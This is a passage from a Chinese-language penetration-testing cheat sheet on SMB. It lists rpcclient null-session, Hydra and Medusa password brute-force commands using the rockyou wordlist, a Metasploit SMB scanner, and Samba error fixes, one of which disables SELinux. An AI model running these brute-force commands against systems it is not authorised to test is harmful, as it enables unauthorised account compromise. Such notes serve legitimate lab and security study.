 ### rpcclient
```
rpcclient -U "" -N 192.168.56.110
```

## 爆破

### Hydra暴力破解smb协议

```
hydra -l administrator -P /usr/share/wordlists/rockyou.txt 192.168.31.173 smb
```
### medusa 爆破smb用户密码

```
medusa -h 192.168.56.106 -u jenkins -P rockyou.txt -M smbnt
```
### metasploit（msf）

```
msf> use auxiliary/scanner/smb/smb_version
```
## samba报错集合

```
1.tree connect failed:NT_STATUS_BAD_NETWORK_NAME
是因为共享名输入的不对
也有可能是共享路径不存在

2.samba 文件有读写权限，共享里也有读写，但是还是不能创建
NT_STATUS_ACCESS_DENIED making remote directory  
错误的原因：SELINUX没有关
解决方法：SELINUX=disabled

3.可以连接上去，但是出现NT_STATUS_OBJECT_NAME_COLLISION making remote directory 1\
原因：因为文件夹1已经创建

4.protocol negotiation failed:NT_STATUS_INVALID_NETWORK_RESPONSE
原因：hosts 网段不允许

5.在连接的过程中，tree connect failed:NT_STATUS_ACCESS_DENIED 
原因：不允许该用户访问
解决方法：valid users = 该用户
```

##### 参考资料

- https://zhuanlan.zhihu.com/p/356104384
- https://blog.csdn.net/qq_63844103/article/details/127219997

#### 钓鱼攻击漏洞（反向标签劫持攻击）
